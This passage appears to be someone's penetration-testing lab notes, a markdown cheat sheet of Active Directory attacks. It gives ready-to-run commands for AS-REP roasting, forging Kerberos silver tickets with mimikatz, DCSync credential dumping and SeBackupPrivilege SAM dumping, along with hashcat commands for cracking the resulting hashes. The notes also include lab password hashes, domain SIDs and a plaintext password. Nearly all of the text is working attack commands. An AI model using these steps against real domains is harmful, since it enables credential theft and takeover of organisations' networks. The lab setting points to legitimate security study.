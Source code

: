     PS C:\Tools> powershell -ep bypass
    PS C:\Tools> Import-Module .\PowerView.ps1
    Get-DomainUser -PreauthNotRequired | select samaccountname  #dave
    ```
  - using 'pete' credential to request AS-REP hashes for 'dave'  
    `kali@kali:~$ impacket-GetNPUsers -dc-ip 192.168.188.70  -request -outputfile hashes.asreproast corp.com/pete`  
  - crack the hash **18200 hash.asreproast**  
    `kali@kali:~$ sudo hashcat -m 18200 hash.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force`
  - Alternate tool - Rubeus  
    `PS C:\Tools> .\Rubeus.exe asreproast /nowrap`
  - Python  
    `kali@kali:~$ GetNPUsers.py -usersfile usernames.txt -dc-ip 192.168.188.70 -format hashcat -outputfile hashes.asreproast corp.com/`  
- 👥 Silver tickets (Forge service tickets)
  - 🔒 Goal: Access a specific service on a host using a forged Kerberos service ticket (TGS).  
  - connecting to **CLIENT75** via RDP as **jeff**  
  - Local admin use Mimikatz to retrieve the **SPN password hash** of 'iis_service'  
    `mimikatz # "privilege::debug" "sekurlsa::logonpasswords" exit`  #4d28cf5252d39971419580a51484ca09
  - Retrieve **Domain SID** for current user  
    `whoami /user whoami /user` #S-1-5-21-1987370270-658905905-1781884369-1105
  - Retrieve **target SPN**: WEB04   
  - Forge service ticket with user jeffadmin  
    `mimikatz # kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin`
  - Listing Kerberos tickets  
    `PS C:\Tools> klist` #jeffadmin
  - Access the SMB share with the silver ticket  
    `PS C:\Tools> iwr -UseDefaultCredentials http://web04`  
- 👥 DCSync attack  
  - 🔒 Goal: Retrieve NTLM / Kerberos password hashes of domain users without touching the DC database. Required domain admin (DC01 to get all user hashes) or Replicating Directory Changes (RDC) right.  
  - connecting to **CLIENT75** as **jeffadmin**  
  - Obtain credentials of dave and administrator  
    `mimikatz # "privilege::debug" "lsadump::dcsync /user:corp\dave" exit`  
  - crack the hash **1000 hash.dcsync**  
    `hashcat -m 1000 hash.dcsync /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force` #Flowers1
  - Alternate tool - secretsdump  
    `kali@kali:~$ impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70`
- lower priviledge user has "sebackupprivilage abuse"  
  - check priviledge  
    `whoami /priv`  
  - Dump SAM hashes  
    ```
    mimikatz # privilege::debug
    mimikatz # token::elevate /user:BackupOperator
    mimikatz # lsadump::sam
    ```
  - Save hashes to file (1st and 3rd field NThash)  
    ```
    Administrator:31d6cfe0d16ae931b73c59d7e0c089c0
    Guest:31d6cfe0d16ae931b73c59d7e0c089c0
    ```
  - Crack the hash **1000 hash.NThash**
    `hashcat -m 1000 hash.NThash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force`  
